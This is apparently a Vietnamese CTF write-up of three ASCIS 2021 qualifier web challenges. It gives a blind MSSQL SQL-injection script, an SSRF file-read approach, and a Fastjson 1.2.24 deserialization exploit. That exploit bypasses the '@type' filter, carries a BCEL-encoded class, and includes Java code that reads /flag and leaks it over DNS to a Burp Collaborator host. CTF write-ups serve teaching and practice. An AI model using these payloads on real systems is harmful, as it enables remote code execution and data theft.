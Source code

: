 # ============= ASCIS 2021 - Quals =============  
<hr />  
  
## 1. script kiddie - 100pts  
  
Như mô tả ta có thể biết rằng web có chứa lỗ hổng SQL-injection với cơ sở dữ liệu được dùng ở đây là MSSQL.  
Câu query như sau: ` SELECT * FROM ... ORDER BY $sort ASC`  
Giá trị của biến `$sort` ta có thể control thông qua param `?sort=`  
Payload: `(case when (ascii(substring(db_name(),{index},1))={ord(c)}) then 1 else 1/db_name() end )`  
  
```python3  
import requests
from string import printable


url = 'http://167.172.85.253/web100/'
r = requests.Session()
db = ''
index = len(db) + 1

while True:
	for c in printable:
		#print("testing for " + c)
		payload = f'(case when (ascii(substring(db_name(),{index},1))={ord(c)}) then 1 else 1/db_name() end)'
		resp = r.get(url + '?sort=' + payload)
		if "Error" not in resp.text:
			db += c
			index += 1
			print(f"Length: {len(db)} - DB_NAME: {db}")
			break  
```  
![image](https://user-images.githubusercontent.com/44127534/137701975-53123d34-8aa2-4aa5-a045-d4bb27ac934d.png)  
> Flag: `ASICS{ssalchtiwesmihcueymorf}`  

## 2. OProxy - 400pts
  
Challege là một trang web có chức năng cho người dùng nhập vào một url và server trả về nội dung của trang web đó.  
![1](https://user-images.githubusercontent.com/44127534/137702153-809ef500-a4e6-49fa-b83e-4df111c5c777.png)
  
Dự đoán đây có thể tác giả ra thử thách ssrf. Fuzz các payload ssrf thì thấy được:  
![2](https://user-images.githubusercontent.com/44127534/137702202-a82f0e56-e27d-4629-a829-de987f526274.png)
  
Để ý server respose header Werkzeug/1.01 Python/3.10.0, có thể dự đoán được back-end có thể là flask, và có thể challenge được dựng trên docker, thử nhập url: file://127.0.0.1/app/main.py thì có được mã nguồn:  
  
![3](https://user-images.githubusercontent.com/44127534/137702301-c120d7c0-0606-44ab-8ab1-590538b0dd33.png)
  
Tới đây thì thử đọc file flag:  
![4](https://user-images.githubusercontent.com/44127534/137702338-414b7486-4fa5-4cf3-8864-4121a2d92ccc.png)
  
> Flag: `ASCIS{SSRF_M3mcached_inj3cti0n}`  

## 3. isolate - 475 pts  
  
Ở challenge này, đề bài có cung cấp cho ta source, cụ thể là có file `isolate.war` nên ta tiến hành giải nén và đọc các file `.class` bằng Intellij  
Phần xử lý chính nằm ở class `ISOServlet` có nội dung sau:  
![image](https://user-images.githubusercontent.com/44127534/137703459-7a027fbc-e3f4-4124-8c4a-09e50958d11e.png)
  
Server đọc chuỗi json qua `request.getInputStream()` và chặn những chuỗi json có chứa chuỗi `@type`, nếu mọi thứ ok thì sẽ đi qua hàm `JSON.parse(jsonData)`.  
Ở đây challenge sử dụng `Fastjson` phiên bản `1.2.24`  
![image](https://user-images.githubusercontent.com/44127534/137703786-2f6e1b65-3b82-46e0-9a5b-135325fe2989.png)  
    
Sau khi tìm google về `fastjson 1.2.24` thì thấy có khá nhiều bài nói về cách khai mà chủ yếu thông qua `autoType` do `fastjson` hỗ trợ được biểu diễn qua key là `@type`. Vì fastjson hỗ trợ việc sử dụng `autoType` này để khởi tạo một lớp cụ thể và gọi các phương thức set/get để truy cập các thuộc tính.  
  
Mà `@type` đã bị chặn bởi server vì do server lấy input dưới dạng stream nên ta có thể bypass dễ dàng qua unicode encode (cụ thể là `@\u0074ype`)  
Sau khi được BTC hint `BCEL / DBCP` thì team đã nhanh chóng google tìm được một [bài post](http://blog.nsfocus.net/fastjson-basicdatasource-attack-chain-0521/) về nó và kết hợp với [bài github](https://github.com/depycode/fastjson-local-echo) là đủ dữ kiện để khai thác.  
  
![image](https://user-images.githubusercontent.com/44127534/137706394-c7bffeb2-b16c-410a-995c-3f4f7ba94f9c.png)
  
Payload:  
```json
{
    {
        "@\u0074ype": "com.alibaba.fastjson.JSONObject",
        "x":{
                "@\u0074ype": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
                "driverClassLoader": {
                    "@\u0074ype": "com.sun.org.apache.bcel.internal.util.ClassLoader"
                },
                "driverClassName": "<class dump>"
        }
    }: "x"
}
```  
Trong đó, `<class dump>` là các file `.class` đã được encode dạng `BCELEncode`. Ý tưởng đọc flag ở `/flag` sau đó encode dưới dạng `hex` sau đó dùng `Burp collaborator client` để lắng nghe DNS query và lấy flag.  
  
```
import javax.script.ScriptEngine;
import javax.script.ScriptEngineManager;
import javax.script.ScriptException;
import java.io.DataInputStream;
import java.io.File;
import java.io.FileInputStream;
import java.io.IOException;
import java.net.MalformedURLException;
import java.net.URL;
import java.net.URLConnection;
import java.nio.file.Files;
import java.nio.file.Paths;

public class Dummy {
    static {
        try {
            getFlag();
        } catch (Exception e) {
            e.printStackTrace();
        }

    }
    private static final char[] HEX_ARRAY = "0123456789ABCDEF".toCharArray();

    public static String byteArrayToHex(byte[] a) {
        StringBuilder sb = new StringBuilder(a.length * 2);
        for(byte b: a)
            sb.append(String.format("%02x", b));
        return sb.toString();
    }

    public static void leakFlag(String c) throws MalformedURLException {
        URL yahoo = new URL("http://"+c+".648yq47p874in51d8874eiy2vt1jp8.burpcollaborator.net");
        yahoo.hashCode();
    }

    public static void getFlag() throws Exception {
        try {
            byte[] dt = Files.readAllBytes(Paths.get("/flag"));
            leakFlag(byteArrayToHex(dt));

        } catch (MalformedURLException me) {
            System.out.println("MalformedURLException: " + me);
        } catch (IOException ioe) {
            System.out.println("IOException: " + ioe);
        }

    }

    public static void main(String[] args) {
        try {
            getFlag();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

}
```  
Command:  
```bash  
> $ javac Dummy.java
> $ java BCELEncode Dummy.class
```   
  
Final payload:  
```json
{
    {
        "@\u0074ype": "com.alibaba.fastjson.JSONObject",
        "x":{
                "@\u0074ype": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
                "driverClassLoader": {
                    "@\u0074ype": "com.sun.org.apache.bcel.internal.util.ClassLoader"
                },
                "driverClassName": "$$BCEL$$$l$8b$I$A$A$A$A$A$A$A$85U$dbV$dbF$U$dd$c26$SB$5cb$cc$r4$Q$924$d48$80$81$98K0$a55$E$g$8a$J$J$90$QJ$daT$b6$F6$91$zG$c8$U$f7$f6$d4$d5$P$e9$L$7d$y$edZ$e0$d5$ac$e4$D$fa$L$fd$91$3e5$dd$ps$c7Y$7d$f0$cc$e8$cc$cc$3e$fb$ec$d93$fe$eb$df$3f$df$C$88$e0G$V$3eDeL$a8$a8$c2$c7$K$se$7c$a2$e2S$c4T$5c$c1$94$IN$8b$e6$be$8c$Z$d1G$V$cc$w$f8L$85$8a$H$a2$99S$f0$b9$8cy$Vq$y$a8x$88E$V$b7$f0H4$8fe$y$d5$60$Z$x$K$9e$88$9dOU$ac$e2$99$8c5$F_$88$f9u$Z$cfUt$e2K$F_$89$5c$_j$Y$fcZ$86$$$a1$e6$c1$cc$b3$X$b1$a5$a5$d8$9a$84$aa$f5i$J$d5$T$99$5c$c6$99$94$e0$J$f6$3c$95$e0$9d$b6R$86$84$86x$sg$3c$yd$T$86$bd$a2$tLF$ea$TE$c7$88$d9$b6$5e$5c$b1$k$Y$bb$SZ$82$ebS$3d$f1$z$7dG$P$9bzn3$bc$ec$d8$99$dcfTB$dd$b2$a3$t_$$$e8yw$a7$8c$E$V$90$a0$98$86$fer$d6$d47$r4$H$_o$T$b9$d5$99$dd$a4$91w2Vn$5b$82$bci8b9Kea$q$96$d5397k$a5$cd$y$98$v$s$92$e6Q1$ea$b2U$b0$93$c6lFPW$ef$X$b2$d9b$bf$d8$a6$a1$h$lIh$bd$I1U$c8$98$v$c3$W$d3I$e6$ba$3d0$c4$K$hOW$z$s$b6$8c$a4$p$p$a5$c1$c0$86$86M$a45d$b0$a5$e1$rL$J$9a$bb2g8$e1$tKqrO$3bN$7e$3c$i$96$Q$e9$l$89$8c$V_EF$f3c$a3$91Lnx05$c6$81$91$v$O$ed8$83$5b$f9$b1$feD$c1$ce$t$z$d3$d4$T$96$ad$3b$96$ddO$Q$c1b$40C$W$ac$d7$X$dep5k$bc$c8X$86$a5$n$8fW2$c8z$h$dc$U$c2$j$Na$MH$e8$3c$a1$b3$a0$9b$h$96$9d5R$e4u$a2$ae$8c$82$86$j$7cC$j$w$ce$8fw$89$dave$U5$7c$x$f0$9a$5c$bc$8c$V$9e$5b$3cY$c4s$3e$f3$r$b6$M$Je$9bNy$9eLj$f8NL5$O$M$O$dd$8d$M$8f$8c$8e$dd$8bMM$df$9f$99$d5$f0$3d$7e$d0$f0$nn$b3N$f7$8c$84$t$a7$a8$7fpN$f8$a1$fe$Uk$8a$e6$a3$ae$3b$baY0$W7$98$sx$ce$7bb$9a$ce$ab$W$b5$e8$8e$84$7b$V$iv$d67$e5$e3$8cV$b4o$b5$9e$cf$h$b9$94$84$beJ6$bd$U$3ar$O7$w$8eU$OI$I$E$xB$xi$7d$3b$5d$be$60$bcms$c7j$e5$a8$ec$G$9d$g$7e$a4$3biZ$dfC$ebK$88$feO$N$e7$Z$9d$c3$88$5eB$W$X$81$c8$9am$e8$a9$98i$K$bd$f8$d9$W$ac$b4$b9G$i$c1Y$bf$V$b7$j$pKZV$81$b4$9a$e3$c7fx$c4$fc$OY$Yz6zA$ad$f7$ea$7b$aaVS$F$Y$9ep$5e$7c$99tWC$be$i$e7S$b2b$ebIJV$ebX$d3i$ddv$df$m$e1$91$9e$f5i$dc$e0$c3$e6$e3c$x$a1$5d$f8$88$a3j$8ey$c7$d9$G$f9$d5$c1$5eb$ef$L$jB$daw$X$f6$i$z$C$eaQ$p$$$cd$d1$d2$9f$Z$adf$l$7b$8d$aa$b5$d0$5b_$fa$Q$9exh$a1$f7$ed$a4g$c4$db$ec$ed$f8$F$b7$7b$9b$bdwG$7cw$fc$5e$ef$h$f8$d6$3c$cd$be$S$aa$97K$90$P$a0$ac$fe$e4$95$f6$de$fd$7d$e7$A5$bf$R$a4$caM$d3$e2rk$87$86$P$d0$85k$Ya$3fAN$bd$8c$b6$a2$ea$j$C$f0$c9$e8$93$d1$cfV$o$a5$7fH$bcF$dca$C$IN$b3$f0r$Et$bf$86$ba$sx$j$a2$d6$af1$5d$88$3f$7f$j$h$e6$3bD$7d$9cy$hVO$eb$ab$87$87$ed$N$s$bdIQna$90_$5e$ce$b5$Q$9d$d7$f4$I$fdW$ae$S$3a$y$fa$h$3dop$a5$E$7f$JM$f3$a1$S$C$r4$efa$7c$few$b4$k$tm$x$t$bd$ca$7c$Hh$dfC$c7$d9$c9k$e7$s$f7$5d$ca$BV$d8$e2$f6$RV$5d$d6$a3$9b$e9$c1$f4uL$l$40$3fW$84$d0$c6$D$Y$e48BU$86$d1$c7$ff$b9$BW$9fZxVe$dc$7d$$$pr$f5$84$7f$t$B$86$vc$f9$c4$e6$d8$8bTZ$J$j$7bP$84$I$d7$f7$dd$8a$3c$3c$c9$ces$87$Qal$94$d1a$c8$dc_$8b17$89$8c$aaY$Z$a3$5e$u$M$i$7b$e6$f1$91g$Ce$d8yVv$dd$dfu$80$h$7f$e0$e6$fb$e0$af0$W$60$d4O$c8$s$c2$b7$9e$87$e7$8b$e4$9ab$fc$3fag$V$f2$i$I$A$A"
        }
    }: "x"
}
```     
![image](https://user-images.githubusercontent.com/44127534/137708160-5ce7139e-c0a2-402b-aed4-c3d44ae1e332.png)
  
![image](https://user-images.githubusercontent.com/44127534/137708257-373db6d0-4b61-4248-ac62-227c89dd9934.png)
    
> Flag: `ASCIS{howaboutw/oDNS?:>}`    
